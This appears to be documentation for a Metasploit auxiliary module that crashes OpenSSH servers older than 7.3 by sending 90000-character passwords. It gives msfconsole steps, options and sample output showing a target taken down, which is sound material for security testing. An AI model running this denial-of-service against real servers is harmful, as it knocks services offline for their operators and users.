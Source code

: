 ## Vulnerable Application

If the target is running OpenSSH version prior to 7.3,
 it does not limit the password length for authentication. Hence, to exploit this vulnerability we will send a crafted data which is of 90000 characters
 in length to the 'password' field while attempting to log in to a remote
 machine via ssh with the chosen username. If the machine is vulnerable, it should crash due to high CPU consumption.

## Verification Steps

  1. Install OpenSSH < v7.3
  2. Start `msfconsole`
  3. Do `use auxiliary/dos/ssh/openssh_7.2_dos`
  4. Do `set RHOST <rhost>`
  5. Do `set REQUESTS <# of requests>`
  6. Do `run`
  7. The server should crash nearly instantly

## Options

  **REQUESTS**

  The number of requests to send to the target.

  **RANDOM_UNAME**

  Use a randomly generated username instead of 'root'.

  **CHECK_UP**

  Check if the host is up after each request. 

## Scenarios

  Using the module with `VERBOSE` set to `true`, `REQUESTS` set to 2, and `CHECK_UP` set to `true`.

  ```
  msf auxiliary(openssh_crypt_cpu_dos) > run
  
  [*] Using username: root
  [*] Sending 2 requests to [redacted]:22
  [*] Sending request 1
  [-] [redacted]:22 - Net::SSH::Disconnect: connection closed by remote host ( This means it's working )
  [*] Checking if [redacted] is up.
  [+] Tango down - [redacted] is down!
  [*] Auxiliary module execution completed
  msf auxiliary(openssh_crypt_cpu_dos) > 
  ```

